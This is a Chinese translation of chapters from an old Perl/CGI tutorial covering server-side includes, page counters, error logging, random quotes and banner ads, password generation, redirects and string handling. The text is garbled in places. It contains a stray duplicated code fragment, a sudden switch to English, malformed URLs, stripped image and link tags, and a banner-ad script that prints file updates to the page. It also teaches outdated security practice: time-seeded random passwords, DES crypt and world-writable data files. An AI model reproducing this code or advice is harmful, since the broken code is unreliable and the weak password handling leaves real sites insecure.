| 001 | 008 | slamsoft | slamsoftware.com | langley On |

我们想按第四列——实际的域名进行排序。排序函数按空白字符分割记录，然后比较第四列：

```perl
sub alpha {
    @aary = split(/\s+/, $a);
    @bary = split(/\s+/, $b);
    $aary[3] cmp $bary[3];
}
```

`cmp` 是字符串的比较运算符；它的作用与 `<=>` 对数字的作用相同。现在我们可以从数据文件生成域名的字母顺序列表：

```perl
foreach $i (sort alpha @data) {
    @datum = split(/\s+/, $i);
    print "$datum[3]\n";
}
```

## 全站搜索

如果你想为整个网站创建搜索引擎，那超出了本书的范围，而且我不建议你自己尝试编写一个——已经有许多优秀的网站索引程序可供使用。以下是几个基于 Unix 的搜索程序：

- `htDig`（`http://www.htdig.org/`）- 一个网站索引程序，带有自己的搜索 CGI（`htsearch`）。
- `glimpse`（`http://webglimpse.net/`）- 教育和政府使用免费；其他用户可免费试用 30 天（商业使用需要许可证）。
- `Swish-E`（`http://sunsite.berkeley.edu/SWISH-E/`）- 或称 "Swish Enhanced"，另一个免费的网站索引器，带有贡献的 CGI。

## 资源

访问 `http://www.cgi101.com/class/ch8/` 获取本章的源代码和链接。

## 服务器端包含（SSI）

到目前为止，你一直在使用两种方法之一来调用 CGI：要么直接链接到它，使用类似 `<a href="test.cgi">` 的链接，要么在你的 HTML 页面中嵌入表单，使用 `<form action="test.cgi" method="POST">` 语法，并在按下表单的提交按钮时调用 CGI。还有第三种方法：服务器端包含。

服务器端包含（SSI）是嵌入在 HTML 页面中的代码，指示 Web 服务器在将页面加载到访问者的浏览器之前执行某些操作。SSI 可用于包含其他文件中的文本、显示日期和/或时间、显示页面最后修改时间、执行 shell 命令和 CGI 脚本等。

SSI 在不同的 Web 服务器上的工作方式不同。虽然调用 SSI 的语法通常相同，但实际命令可能有所不同。我们这里讨论的 SSI 仅适用于 Apache Web 服务器，该服务器广泛应用于全球的 Unix 系统（以及越来越多的 Windows 系统）。如果你使用不同的服务器，在继续之前应该获取该服务器的有效 SSI 列表。

SSI 的基本语法如下：

```html
<!--#element attribute=value attribute=value-->
```

此代码放在你的 HTML 页面中，你希望 SSI 结果出现的位置。

并非每个 HTML 文档都需要服务器解析（而且在大型高流量网站上，这也不是个好主意——如果服务器每天必须解析数百万页面，它真的会不堪重负）。只有当你实际计划在文件中使用 SSI 时，才希望将其设置为服务器解析。Apache 服务器（和大多数其他服务器）通过两种方式之一确定服务器解析：要么通过文件名，要么通过文件的 "x" 位（或执行权限）。在第一种情况下，如果你希望文件被服务器解析，只需将其命名为 `.shtml` 扩展名，而不是 `.html`。在第二种情况下，你可以通过设置文件权限来让文件被服务器解析，如下所示：

```bash
chmod 755 filename.html
```

该文件上的 "x" 位被设置，告诉服务器解析它。服务器必须配置为允许 `XbitHack` 才能工作。（请咨询你的系统管理员，了解你的服务器是否已配置此功能。）

关于 x 位的说明：`755` 模式允许浏览器缓存解析后的页面，因此如果你使用 SSI 生成随机广告横幅、随机文本或其他每次人员重新加载/重新访问页面时必须刷新的信息，你应该改用：

```bash
chmod 745 filename.html
```

这可以防止文件缓存。此外，为了提高性能，你应该对所有不需要服务器解析的文件（包括非解析 HTML、GIF 和 JPEG）设置如下权限：

```bash
chmod 644 filename.jpg
```

请注意，这些权限更改仅适用于非脚本。你的 CGI 仍然需要 `755` 模式才能执行。

下表列出了所有可用的 Apache SSI，以及每个的示例。此表很长，但内容全面；当你向页面添加 SSI 时，你会发现它是一个方便的参考。

| 元素 | 属性 |
| --- | --- |
| `config` | `errmsg` - 发生解析错误时发送回客户端的消息。通常你会看到：`[ an error occurred while processing this directive ]`。要自定义它：`<!--#config errmsg="SSI error"-->`<br><br>`sizefmt` - 显示文件大小时使用的格式。有效值为 `bytes`（以字节计数）或 `abbrev`（根据需要显示 Kb 或 Mb）。示例：`<!--#config sizefmt="bytes"-->`<br><br>`timefmt` - 显示日期和时间时使用的格式。格式字符串由 `strftime` C 库使用，该库接受以下替换： |

配置指令定义了其他 SSI 指令的输出将如何显示。此命令本身实际上不显示任何内容。

## 时间格式替换

- `%a` - 缩写的星期名称
- `%A` - 完整的星期名称
- `%b` - 缩写的月份名称
- `%B` - 完整的月份名称
- `%d` - 以零填充的十进制数字表示的月份日期（01-31）
- `%e` - 以非零填充的十进制数字表示的月份日期（1-31）
- `%H` - 使用 24 小时制的十进制数字表示的小时（00-23）
- `%I` - 使用 12 小时制的十进制数字表示的小时（01-12）
- `%j` - 以十进制数字表示的一年中的第几天（001-366）
- `%m` - 以十进制数字表示的月份（范围 01 到 12）
- `%M` - 以十进制数字表示的分钟
- `%p` - am 或 pm
- `%S` - 以十进制数字表示的秒
- `%U` - 以十进制数字表示的当前年份的周数，以第一个星期日作为第一周的第一天。
- `%W` - 以十进制数字表示的当前年份的周数，以第一个星期一作为第一周的第一天。
- `%w` - 以十进制表示的星期几，星期日为 0
- `%y` - 不包含世纪的十进制数字表示的年份（00-99）
- `%Y` - 包含世纪的十进制数字表示的年份
- `%Z` - 时区或名称或缩写
- `%%` - 字面意义的 `%` 字符

几个示例：

```html
<!--#config timefmt="%A, %B %e, %Y"-->
```

将日期格式配置为 "Monday, January 4, 1999"。

```html
<!--#config timefmt="%a %d %b %y"-->
```

将日期格式配置为 "Mon 04 Jan 99"。

## `echo`

`var` - 打印以下包含变量之一：

- `DATE_GMT` - 格林威治标准时间的当前日期
- `DATE_LOCAL` - 本地时区的当前日期
- `DOCUMENT_NAME` - 用户请求的文档的文件名（不含目录路径）。（例如 "testpage.html"）
- `DOCUMENT_URI` - 用户请求的文档的 URL 路径。（例如 `/~username/ssis/testpage.html`）
- `LAST_MODIFIED` - 当前文件最后修改的日期

日期显示遵循 `config` 的 `timefmt` 设置（见上文）。例如，要在文档中显示当前日期，你可以这样做：

```html
<!--#config timefmt="%A, %B %e, %Y"-->
<!--#echo var="DATE_LOCAL"-->
```

这将以 "Monday, January 4, 1999" 的格式显示日期。

时间格式配置是可选的，但日期的默认格式通常是 Unix 风格的日期，如 "Mon Jan 4 11:32:05 CST 1999"。这不太便于阅读，因此通常最好设置时间格式。

## `exec`

`cgi` - 执行一个 CGI 脚本。有两种调用方式：

```html
<!--#exec cgi="test.cgi"-->
```

在调用它的 HTML 文件所在的同一目录中执行 `test.cgi`；而

```html
<!--#exec cgi="/some/other/dir/test.cgi"-->
```

则在 `/some/other/dir/` 目录中执行 `test.cgi`，该路径相对于网站根目录。

正常的 CGI 环境变量会传递给 CGI，同时传递的还有 SSI 包含变量（列在 `echo` 指令中），以及通过 `set` 指令定义的任何 SSI 变量（见下文）。

CGI 的输出会显示在 HTML 页面中。CGI 必须返回 `Content-type:text/html` 头才能被包含。如果脚本返回的是 `Location:` 头，则 `Location` URL 将被显示为一个 HTML 锚点链接。

### `cmd`

使用 `/bin/sh` 执行 shell 命令。SSI 包含变量会传递给命令，但 CGI 环境变量不会。

示例：

```html
<!--#exec cmd="date"-->
```


调用系统的`date`命令。

## fsize

打印指定文件的大小，遵循`sizefmt`格式设置（参见`config`指令）。有两个有效属性：

- **file** - 与当前文档在同一目录中的文件名
- **virtual** - 相对于网站根目录的文件名

示例：

```
<!--#fsize file="data.db"-->
<!--#fsize virtual="/index.html"-->
```

## flastmod

打印指定文件的最后修改日期，遵循`timefmt`格式设置（参见`config`指令）。有两个有效属性：

- **file** - 与当前文档在同一目录中的文件名
- **virtual** - 相对于网站根目录的文件名

示例：

```
<!--#flastmod file="data.db"-->
<!--#flastmod virtual="/index.html"-->
```

## include

将指定文件的内容包含到当前 HTML 文档中。有两个有效属性：

- **file** - 与当前文档在同一目录中的文件名
- **virtual** - 相对于网站根目录的文件名

示例：

```
<!--#include file="bodybar"-->
<!--#include virtual="/includes/botbar.inc"-->
```

## printenv

无属性。打印所有现有变量（CGI 环境变量和 SSI）及其值的列表。

示例：

```
<!--#printenv-->
```

## set

设置变量的值。必需属性：

- **var** - 变量的名称
- **value** - 变量的值

示例：

```
<!--#set var="iline" value="prodinfo"-->
<!--#set var="ipage" value="23"-->
```

## 包含文件

让我们尝试一个简单的示例：将另一个文件的文本包含到你的页面中。包含文件的语法可以是以下之一：

```
<!--#include file="botbar.inc"-->
<!--#include virtual="/includes/botbar.inc"-->
```

如果你包含的文件与 HTML 页面在同一目录中，或在子目录中，你可以使用`#include file="filename"`。但如果你想包含的文件在页面当前目录的上级多个目录中，或者位于服务器的其他部分，你应该使用`#include virtual="/path/to/filename"`语法。在`virtual`包含中，你使用的不是文件的完整 Unix 路径，而是从 Web 服务器根目录开始的路径。因此，如果你的服务器根目录是`/web/kira`，而你的包含文件位于`/web/kira/include/include/botbar.inc`，那么`virtual`路径就是`/include/botbar.inc`。（或者，如果你使用`public_html`目录，你的主页位于`http://yourhost.com/~yourname/`，那么`public_html/include`目录中的包含文件可以使用`virtual`路径`/~yourname/include/botbar.inc`来包含。）

包含文件对于维护大型网站非常有用。如果你有一个 100 页的网站，每页都有相同的导航链接，使用 SSI 来包含导航信息会合理得多——这样当需要更改导航链接时，你只需更改一个文件，而不是数百个。

这是一个非常简单的导航包含文件，名为`navbar.inc`。

```
<center>
<a href="/">Home</a> |
<a href="/feedback.html">Feedback</a></a><p>
</center>
```

现在要包含该文件，在 HTML 页面底部插入以下内容：

```
<!--#include virtual="/includes/navbar.inc"-->
```

请确保对`navbar.inc`文件设置权限使其可被所有人读取（`chmod 644 navbar.inc`）。你还需要对 HTML 文件执行`chmod 745`。

这是另一个示例，这次使用`body`标签颜色和头部图形。我们将有两个文件。第一个是`body.inc`，只包含这一行：

```
bgcolor="#ffffff" text="#000000"
```

第二个文件`header.inc`包含一个头部图形：

```
<a href="/"></a><br>
```

现在，将这两个文件保存在`includes`目录后，你可以通过以下方式在任何 HTML 页面中包含它们：

```
<html><head><title>Your Page Title</title></head>
<body> <!--#include virtual="/includes/body.inc"--> 
<!--#include virtual="/includes/header.inc"-->
```

## 执行 CGI

你可以使用以下指令通过`include`执行 CGI：

```
<!--#exec cgi="/path/to/script.cgi"-->
```

CGI 必须在返回任何输出之前打印`Content-Type`头。SSI 调用的 CGI 的一些常见用途包括随机广告横幅、随机图片或短语生成器以及页面计数器。

## SSI 页面计数器

让我们尝试编写一个页面计数器。首先，你需要创建一个`counts`文件，第一行也是唯一一行写上数字 0。保存它，别忘了将其设为所有人可写：

```
chmod 666 counts
```

接下来，创建`count.cgi`。该脚本将读取`counts`文件，递增计数器，重写文件，然后打印当前页面。

```perl
#!/usr/bin/perl

open(IN,"counts");
flock(IN,2);  # lock the file
seek(IN,0,0); # rewind it to the beginning
$count = <IN>; # read only the first line.
close(IN);
$count = $count + 1;
open(OUT,">counts");
flock(OUT,2);  # lock the file
seek(OUT,0,0); # rewind it to the beginning
print OUT "$count\n";
close(OUT);
print "Content-type:text/html\n\n";
print "You are visitor number $count.<p>\n";
```

源代码：`http://www.cgi101.com/class/ch9/count.txt`
工作示例：`http://www.cgi101.com/class/ch9/count.html`

你应该先在命令行中测试以确保它能正常工作，并且确实递增了文件中的数字。然后，只需将以下内容添加到你要计数的 HTML 页面中：

```
<!--#exec cgi="count.cgi"-->
```

`Content-type`行不会显示——但 Web 服务器需要它来知道要显示什么类型的数据。如果一切正常，当你加载带有计数器 SSI 的 HTML 文件时，你会看到“You are visitor number （某个数字），”显示在 SSI 标签的位置。

## 问题排查？

如果你在 SSI 计数器应该显示的位置什么也没看到，你的页面可能没有被解析。检查你是否将文件命名为`somename.shtml`，或者是否对该文件执行了`chmod 745`。如果你已经做了这两件事但仍然不起作用，可能你的 Web 服务器没有配置为允许 SSI。请咨询你的网站管理员。

如果你看到类似以下的内容：

```
[ an error occurred while processing this directive ]
```

那么要么是你指向了错误的位置，要么是你的脚本有问题。如果 CGI 不在 HTML 文件所在的目录中，请确保在 SSI 中包含转换后的路径：

```
<!--#exec cgi="/test/scripts/count.cgi"-->
```

同时确保你包含了`Content-type:text/html\n\n`这一行。也可以尝试在命令行中运行脚本以查找错误。

如果你的计数器没有递增，那么可能是计数文件没有正确的权限，或者页面被浏览器缓存了。请确保你对 HTML 文件执行了`chmod 745`。你可能还需要将浏览器设置为“每次检查页面”，而不是“每次会话检查一次”（这些通常在浏览器首选项菜单的“缓存”部分中）。

## SSI 错误日志

如果你有一个虚拟域名（例如 `www.yourdomain.com`），你可以让你的网站管理员进行设置，使你拥有自定义错误页面。例如，你可能不想让访客看到默认的`404 Not Found`，而是将他们引导到你主目录中名为`err404.html`的页面。下面是一个示例（这是 `cgi101.com` 的`err404.html`）

```html
<html>
<head>
<title>CGI101 404</title>
</head>
<body bgcolor="#ffffff" text="#000000" link="#00639C">
<center><a href="/"></a>
<p>
<blockquote>
<h2>页面未找到</h2>
该页面在服务器上未找到。
<p>
</blockquote>
</center>
</body_>
</html_>
```

你也可以在此页面中嵌入 SSI。只需将此标签插入到你的`err404.html`文件中：

```
<!--#exec cgi="err404.cgi"-->
```

现在创建`err404.cgi`程序。该程序会将来源页面和请求的文件记录到错误日志中：

```perl
#!/usr/bin/perl
#
print "Content-type:text/html\n\n";
open(LOG,">errlog");
print LOG "referer: $ENV{'HTTP_REFERER'}, uri: $ENV{'REQUEST_URI'}\n";
close(LOG);
```

源代码：`http://www.cgi101.com/class/ch9/err404.txt`

请确保`errlog`文件已存在，位于同一目录中，并且具有全局可写权限，以便服务器可以向其中写入。现在你可以定期检查`errlog`文件，查看哪些页面被请求但未找到——以及来源页面是否是你自己网站上的页面。日志看起来可能像这样：

```
referer: , uri: /robots.txt
referer: , uri: /robots.txt
referer: http://www.metronet.com/search/search.cgi, uri: /pfind.html
referer: , uri: /class/ch23
```

`Referer`是用户来源页面；URI 是用户尝试（但未能）访问的你网站上的页面。

如果`referer`为空，说明用户不是通过其他链接到达该缺失页面的，而是可能直接在地址栏中输入的。`/robots.txt`URI 会频繁出现，因为搜索引擎在进入并索引你的网站之前会查找该文件。它缺失也没关系——只有当你不想让你的网站被网络爬虫和机器人索引时，才需要提供`robots.txt`文件。有关机器人排除标准的信息，请参阅 `http://info.webcrawler.com/mak/projects/robots/norobots.html`。

## 将变量传递给 CGI

假设你有一个 CGI 程序，它读取`QUERY_STRING`并根据发送的值返回不同的结果。例如：

```
colors.cgi?red
colors.cgi?blue
```

遗憾的是，你无法在 Apache 上直接通过 SSI 调用这些：

```
<!--#exec cgi="colors.cgi?red"-->
<!--#exec cgi="colors.cgi?blue"-->
```

这些都会返回错误。幸运的是有一个简单的解决方法：只需在每次调用 CGI 之前使用`set`指令：

```
<!--#set var="QUERY_STRING" value="red"-->
<!--#exec cgi="colors.cgi"-->
<!--#set var="QUERY_STRING" value="blue"-->
<!--#exec cgi="colors.cgi"-->
```

这会将`QUERY_STRING`变量传递给`colors.cgi`。你也可以设置其他变量：

```
<!--#set var="def" value="3"-->
<!--#set var="ivar" value="1x"-->
<!--#exec cgi="interval.cgi"-->
```

你使用`set`定义的每个变量都可以从 CGI 的`%ENV`哈希中提取。在上面的示例中，`interval.cgi`可以通过`$ENV{'def'}`和`$ENV{'ivar'}`访问这些变量。

## 执行服务器命令

`exec`指令的另一个用途是运行 Unix shell 命令。例如：

```
<!--#exec cmd="date"-->
```

将包含日期，即 shell 中`date`命令的输出。`exec cmd`指令也可以直接调用 Perl 脚本：

```
<!--#exec cmd="fnord.pl"-->
```

如果你以这种方式调用脚本，脚本不需要返回`Content-type`头；服务器会直接包含脚本输出的所有文本。

`exec cmd`和`exec cgi`之间还有一个区别，那就是路径。`cmd`使用完整的 Unix 路径名；`cgi`使用转换后的路径。所以，例如，位于`ads`子目录中的`ad.cgi`（其中`/home/www`是服务器根目录）可以通过以下两种方式之一调用：

```
<!--#exec cgi="/ads/ad.cgi"-->
<!--#exec cmd="/home/www/ads/ad.cgi"-->
```

通常你不应该互换使用它们，因为如果你用`exec cmd`调用一个发送`Content-type`头的脚本，你会在 HTML 文件中看到`print Content-type:text/html`这段文本。

在下一章中，我们将看到如何使用 SSI 和 CGI 为你的网页添加随机内容。

## 资源

- Apache 服务器项目（`http://www.apache.org/`）
- Apache 模块 mod_include（`http://www.apache.org/docs/mod/mod_include.html`）
- strftime 手册页
- 机器人排除标准，`http://info.webcrawler.com/mak/projects/robots/norobots.html`
- 访问 `http://www.cgi101.com/class/ch9/` 获取本章的源代码和链接。

# 10 随机性

随机数非常适合为你的网站增添多样性——无论你是在页面上显示随机的单词、短语或图片，还是随机的广告横幅。使用 Perl 生成随机数有两个步骤。首先，你必须使用`srand`函数设置*随机数种子*：

```perl
srand;
srand (time|$$);
```

或者，更推荐的方式：

```perl
srand(time() ^ ($$ + ($$ << 15)));
```

最后这个示例比前两个更难预测。它也仅在 Unix 上有效，所以如果你在 Windows 机器上编写脚本，不要使用它——请改用`srand(time)`。

`srand`应该只在脚本开头调用一次。然后你可以使用`rand`函数生成随机数：

```perl
# 0.0 到 99.99 之间的随机浮点数：
$rand1 = rand(100);

# 0 到 49 之间的随机整数：
$rand2 = int(rand(50));
```

让我们利用这个来编写一个 CGI，从一组短语中随机显示一段文本。下面是一个显示名言的脚本。所需做的只是生成一个介于 0 和短语列表长度之间的随机数。

```perl
#!/usr/bin/perl
#
@quotes = ("Science is organized knowledge. Wisdom is organized life. - Immanuel Kant",
"Give me a firm place to stand and I will move the earth. - Archimedes",
"Facts do not cease to exist because they are ignored. - Aldous Huxley",
"The best way to have a good idea is to have a lot of ideas. - Linus Pauling",
"High achievement always takes place in the framework of high expectation. - Jack Kinder");
srand(time() ^ ($$ + ($$ << 15)) );
$quote = $quotes[int(rand(@quotes))];
print "\n$quote\n";
```


源代码：`http://www.cgi101.com/class/ch10/randquote.pl`  
在线示例：`http://www.cgi101.com/class/ch10/randoms.html`

由于`@quotes`的标量值是数组的实际长度（在此示例中为 5），`rand(@quotes)`返回一个介于 0 和 length-1 之间的值（在此例中为 0.00 到 4.999）。然后我们使用`int`函数将随机数转换为整数。

上述脚本可以从命令行运行。如果你想将其嵌入到网页中，请使用服务器端包含：

```html
<!--#exec cmd="/home/kira/public_html/cgi/quote.pl"-->
```

## 随机图片选择器

生成随机图片与生成随机短语非常相似，只是脚本返回的是一个图片标签而不是短语：

```perl
#!/usr/bin/perl

#

@imgs = ("cover1.gif","cover2.gif","cover3.gif","cover4.gif");

srand(time() ^ ($$ + ($$ << 15)) );

$img = $imgs[int(rand(@imgs))];

print "";
```

你可以通过 SSI 调用此脚本，就像调用随机短语脚本一样：

```html
<!--#exec cmd="/home/kira/web/cgi/randimg.pl"-->
```

源代码：`http://www.cgi101.com/class/ch10/randimg.pl`  
在线示例：`http://www.cgi101.com/class/ch10/randoms.html`

## 随机密码生成器

在许多场景下密码保护的网站非常有用：也许是用于维护网站的管理区域，或是仅限会员使用的服务，如在线杂志。你实际上如何用密码保护网站的一部分呢？通常使用`.htaccess`文件，该文件会检查平面数据文件或 SQL 数据库中的用户名/密码对。有关`.htaccess`文件的实际示例，请参见附录 C。

一旦你保护了网站，当用户忘记密码时，你可以手动重置他们的密码，或者你可以创建一个表单允许他们自行重置密码。以下是生成随机密码的子程序：

```perl
sub random_password {

    # 生成随机密码。交替使用元音和

    # 辅音，以实现最大的可发音性。使用自己的

    # 辅音列表，排除了 F、C 和 K，以防止

    # 生成听起来不雅的密码。大写 I 和

    # 小写 l 基于它们看起来彼此相似而被排除。

    ($length) = @_;

    if ($length eq "" or $length < 3) {

        $length = 6;           # 至少 6 个字符长。

    }

    $vowels = "aeiouyAEUY";

    $consonants = "bdghjmnpqrstvwxzBDGHJLMNPQRSTVWXZ12345678";

    srand(time() ^ ($$ + ($$ << 15)) );

    $alt = int(rand(2)) - 1;

    $s = "";

    $newchar = "";

    foreach $i (0..$length-1) {

        if ($alt == 1) {

            $newchar = substr($vowels,rand(length($vowels)),1);

        } else {

            $newchar = substr($consonants,rand(length($consonants)),1);

        }

        $s .= $newchar;

        $alt = 1 - $alt;

    }

    return $s;

}
```

# 第10章 随机密码与广告横幅（续）

```perl
rand(length($consonants)),1);

}

$s .= $newchar;

$salt = !$alt;

}

return $s;

}
```

源代码：`http://www.cgi101.com/class/ch10/randpass.txt`  
可运行示例：`http://www.cgi101.com/class/ch10/randpass.html`

要实际生成随机密码，你需要在主 CGI 代码中包含以下行：

```perl
$randpass = random_password(8);
```

这会生成一个 8 个字符长的随机密码。但这只是创建真正密码的第一步：现在你还必须对密码进行加密（除非你打算以纯文本形式存储密码，但这非常不安全，完全不推荐）。下面是一个执行基本 DES（数据加密标准）加密的子程序：

```perl
sub encrypt($) {

    my($plain) = @_;

    my(@salt);

    @salt = ('a'..'z', 'A'..'Z', '0'..'9', '.', '/');

    srand(time() ^ ($$ + ($$ << 15)) );

    return

crypt($plain,$salt[int(rand(@salt))].$salt[int(rand(@salt))]);

}
```

现在要对生成的密码进行加密，只需执行：

```perl
$encpass = encrypt($randpass);
```

`$randpass`是你通过邮件发送（或在结果页面上显示）给用户的值——这是他的新密码。`$encpass`是你要存储在用户数据库或密码文件中的值。

注意，这两个子程序都用`srand`重新生成了随机种子。这是不必要的，甚至不是个好主意——你应该把`srand`行放在脚本开头，并从子程序中移除它，这样它只出现一次。

如果你编写的脚本通过网络显示敏感信息（如信用卡或银行信息），除了加密密码外，还应要求访问者使用安全服务器或 SSL（安全套接层）连接。

## 随机广告横幅

生成随机广告横幅与生成随机图片的基本过程相同：主要区别在于，你需要跟踪给定广告显示的次数。大多数横幅广告是按点击次数或“展示次数”块状销售的，所以，例如，如果你为一个广告购买了 1000 次展示，这意味着有 1000 人查看了你的广告。

从 CGI 的角度来看，这意味着你不仅要从广告列表中随机选择一个广告，还要更新与该广告关联的计数器文件。

下面的文件包含关于多个广告的数据，以管道符（`|`）分隔。字段包括：广告编号（1-4）；广告图片的实际位置；该公司的网址；图片的 ALT 标签（这样看不到广告图片的人仍然能获取一些广告内容）；该广告的最大展示次数；以及当前展示次数。

```text
1|/ads/amzn.gif|http://www.amazon.com|Amazon.com - Earth's Biggest Bookstore|1000|150

2|/ads/mhaus.gif|http://www.megahaus.com|Megahaus - The source for computer storage products since 1987|1000|200

3|/ads/google.gif|http://www.google.com|Google Search|1000|0

4|/ads/garden.jpg|http://www.garden.com|Gardening for today's world|1000|0

5|/ads/internic.gif|http://www.networksolutions.com|the dot com people|1000|0
```

广告 CGI 必须读取此文件，从尚未用完所有分配“展示次数”的广告列表中随机选择一个，显示该广告，更新其计数器，并用更新后的计数重写此文件。

以下是实际脚本：

```perl
#!/usr/bin/perl

print "Content-type:text/html\n\n";

srand(time() ^ ($$ + ($$ << 15)));

open(INF,"addata.txt");

@grok = <INF>;

close(INF);

@vads = ();

foreach $i (@grok) {

    # added this line in case the file has a blank line in it

    if ($i eq "") {

        next;       # skip to the next loop iteration

    }

    chomp($i);

    ($id,$gif,$url,$alt,$max,$count) = split(/\|/,$i);

    if ($count < $max) {

        push(@vads,$i);

    }

}

$rid = int(rand(@vads));

if ($rid < 0) {

    # there's been some problem. Abort.

    exit;

}

$ad = $vads[$rid];

($id,$gif,$url,$alt,$max,$count) = split(/\|/,$ad);

print qq(<a href="$url"></a>\n);

$count = $count + 1;

open(INF,">addata.txt");

flock(INF,2);

seek(INF,0,0);

foreach $i (@grok) {

    chomp($i);

    if ($i eq $ad) {

        print "$id|$gif|$url|$alt|$max|$count\n";

    } else {

        print "$i\n";

    }

}

close(INF);
```

源代码：`http://www.cgi101.com/class/ch10/bannerad.pl`  
可运行示例：`http://www.cgi101.com/class/ch10/randoms.html`

然后使用 SSI 调用该脚本，插入到你想让横幅广告出现的任何位置：

```html
<!--#exec cgi="ad.cgi"-->
```

使用这种平面文件数据库来跟踪广告效率不高。跟踪广告的更好方法是使用 SQL 数据库，我们将在第 18 章中介绍。

## 资源

- “An Introduction To Using Random Number Generators”，`http://nhse.npac.syr.edu/random/overview.html`
- `crypt`手册页

访问`http://www.cgi101.com/class/ch10/`获取本章的源代码和链接。

# 第11章 重定向和刷新

如果你有一个 CGI，不想显示“谢谢”页面或其他 HTML 输出，而是想将访客发送到另一个现有的网页。你可以使用*重定向*来实现这一点。重定向是一个内容头，告诉浏览器去别的地方。在 Perl 中，它看起来像这样：

```perl
print

"Location:http://www.cgi101.com/class/ch11/otherpage.html\n\n";
```

这个语句必须是你的 CGI 打印到标准输出的*唯一*内容，这样才能生效——你用这个*代替*`print "Content-type:text/html"`这一行。

最简单的例子是一个占位 CGI。假设你迁移了网站，但希望链接到旧网站的人能够找到新网站。与其在旧网站的主目录中保留一个`index.html`，不如创建以下内容并将其命名为`index.cgi`：

```perl
#!/usr/bin/perl

print "Location:http://www.newsite.com/yoururl/\n\n";
```

（将 URL 替换为你实际的新地址。）现在每当有人访问你的旧网站时，他们都会被重定向到新网站。

当然，这只有在你打算维护旧网站的情况下才 relevant。如果你要更换 ISP 并打算关闭账户，最好请求网站管理员为你安装服务器级重定向。

你可能需要让脚本能够同时处理两者——例如，在发生任何错误时打印错误页面，如果一切正常则进行重定向。这可以通过对我们之前使用的`die_nice`子程序（参见*第 4 章*）进行小幅修改来实现。以下是一个处理简单表单的 CGI 示例。如果姓名或电子邮件地址字段为空，它会打印错误页面；否则，它会将你重定向回表单页面：

```perl
#!/usr/bin/perl

read(STDIN, $buffer, $ENV{'CONTENT_LENGTH'});

@pairs = split(/&/, $buffer);

foreach $pair (@pairs) {

    ($name, $value) = split(/=/, $pair);

    $value =~ tr/+/ /;

    $value =~ s/%([a-fA-F0-9][a-fA-F0-9])/pack("C", hex($1))/eg;

    $FORM{$name} = $value;

}

if ($FORM{'email'} eq "") {

    dienice("You didn't enter your e-mail address.");

} elsif ($FORM{'name'} eq "") {

    dienice("You didn't enter your name.");

}

print "Location:reform.html\n\n";

sub dienice {

    my($msg) = @_;

    print "Content-type:text/html\n\n";

    print <<EndHTML;

<html><head><title>Error</title></head>

<body>

<h2>Error</h2>

$msg

</body>

</html>

EndHTML

    exit;

}
```

源代码：`http://www.cgi101.com/class/ch11/reform.txt`  
可运行示例：`http://www.cgi101.com/class/ch11/reform.html`

由于`dienice`子程序中有`exit`，巨细靡遗，如果有错误，脚本会在那里结束——它永远不会到达`Location`头。

## 刷新

刷新是告诉浏览器在一定时间后重新加载当前页面的功能。刷新可以通过在 HTML 文档中使用 META 标签来实现。META 标签放在 HTML 页面的`<HEAD></HEAD>`标签之间。语法是：

```html
<META HTTP-EQUIV="Refresh" CONTENT=seconds; URL=wherever>
```

`seconds`是刷新前等待的秒数。`wherever`是刷新后加载的 URL。

以下是一个使用刷新的 HTML 页面示例。它还使用服务器端包含来显示当前日期。

```html
<html><head>

<title>Refresh!</title>

<META HTTP-EQUIV="Refresh" CONTENT="5; URL=refresh.html">

</head>

<body>

It is now <!--echo var="DATE_LOCAL"-->

</body>

</html>
```

可运行示例：`http://www.cgi101.com/class/ch11/refresh.html`

刷新也可以通过将刷新 URL 设置为当前页面以外的内容来重定向访客。以下是一个“此页面已迁移”HTML 文件的示例：

```html
<html><head>

<title>Moved!</title>

<META HTTP-EQUIV="Refresh" CONTENT="5;

URL=http://www.cgi101.com/">

</head>

<body>

This page has moved to <a

href="http://www.cgi101.com/">http://www.cgi101.com</a>.

</body>

</html>
```

```html
</html>
```

Working example: `http://www.cgi101.com/class/ch11/moved.html`

Not all browsers recognize the refresh tag, so this example allows everyone to reach your new page by providing both the refresh and an actual link that can be clicked on.

In a CGI, a refresh is done a little differently. It's part of the actual content header:

```perl
print "Content-type:text/html\n";

print "Refresh:3; URL=http://site.to.refresh.to/\n\n";
```

You'd use this instead of the META tag in your CGI. Note too that for this to work, you're only putting one `"\n"` after the `Content-type:text/html` line. Here's an example:

```perl
#!/usr/bin/perl

#
```


# 输出刷新页面

> 注意：`Content-type` 行中只使用一个`\n`：

```perl
print "Content-type:text/html\n";
```

`Refresh` 是标头的一部分，并且以两个`\n`结束：

```perl
print "Refresh:3; URL=http://www.cgi101.com/\n\n";
```

处理表单数据，或执行 CGI 程序所需的其他操作：

```perl
# handle form stuff or whatever you want your CGI to do here
```

然后输出带有 `META` 标签的感谢页面：

```perl
print <<EndHTML;

<html><head>

<title>Thank You</title>

</head>

<body>

<h2>Thank You!</h2>

Thanks for your feedback. Return to our <a href="/">home page</a>!<p>

</body>

</html>

EndHTML
```

源代码：http://www/cgi101.com/class/ch11/thanks.txt

可运行示例：http://www/cgi101.com/class/ch11/thanks.cgi

刷新页面有一个缺点：它往往会破坏浏览器的“后退”按钮。尝试访问上面的某个页面，等待它刷新到新页面，然后尝试返回。如果你返回的速度没有快过页面刷新速度，就会卡在刷新页面的无限循环中。对访问者来说，这是一种相当令人讨厌的行为。因此，如果可以选择，请使用重定向，而不是刷新；或者使用包含链接的静态页面，将访问者引导到你希望他们下一步访问的位置。

## 资源

访问 http://www/cgi101.com/class/ch11/ 获取本章的源代码和链接。

# 12 字符串处理

Perl 的强项之一是它的字符串操作能力。由于 CGI 程序经常涉及字符串的读取、写入和解析，了解 Perl 的各种字符串处理特性将对你有所帮助。本章将演示这些特性。

## 比较字符串

我们已经做过一些字符串比较，例如测试`var1`是否`eq var2`。但`eq`运算符区分大小写，所以`"us"`、`"US"`和`"Us"`并不相同。如果你想使用`eq`运算符进行不区分大小写的比较，首先需要使用转换运算符将字符串全部转换为小写或大写：

```perl
$country = $FORM{'country'};

$country =~ tr/A-Z/a-z/;  # 转换为小写

if ($country eq "us") {

    print "You appear to be in the US.\n";

}
```

如果你想保留原始变量的大小写，请务必将其赋值给一个临时变量，就像上面我们将`$country`设置为`$FORM{'country'}`那样。这样你修改的是`$country`的大小写，而不是`$FORM{'country'}`，以防后续脚本中需要用到表单的精确数据。

另一种改变大小写的方法是使用 Perl 的`lc`和`uc`函数：

```perl
$country = lc($country);  # 将 $country 转换为小写

$country = uc($country);  # 将 $country 转换为大写
```

你还可以使用正则表达式进行更强大、更灵活的字符串比较。详见第 14 章关于正则表达式的更多内容。

